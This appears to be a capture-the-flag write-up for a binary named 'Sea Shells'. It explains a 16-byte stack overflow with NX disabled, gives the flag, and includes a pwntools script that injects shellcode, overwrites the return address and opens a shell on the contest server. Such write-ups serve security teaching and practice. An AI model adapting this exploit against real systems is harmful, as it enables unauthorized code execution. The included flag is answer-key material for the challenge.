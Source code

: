 # Sea Shells

The binary prints the address of our input, then uses read to read input into it. There's 16 bytes of buffer overflow, letting us overwrite rbp and the return address only. As NX is off and our input is on the stack, we can just set the return address to our input, and then put shellcode in our input. After popping a shell, we cat flag.txt to get the flag.

## Flag: flag{popping\_shells\_by\_the\_sea\_shore}

```python
from pwn import *
context.arch = 'amd64'
e = ELF("./seashells")
p = e.process() if args.LOCAL else remote('challenge.ctf.games', 32134)
addr = int(p.recvline(),16)
p.recvuntil(":")
sc = asm(shellcraft.amd64.linux.sh())
payload = fit({0: sc, 0x88: addr})
p.sendline(payload)
p.interactive()
```

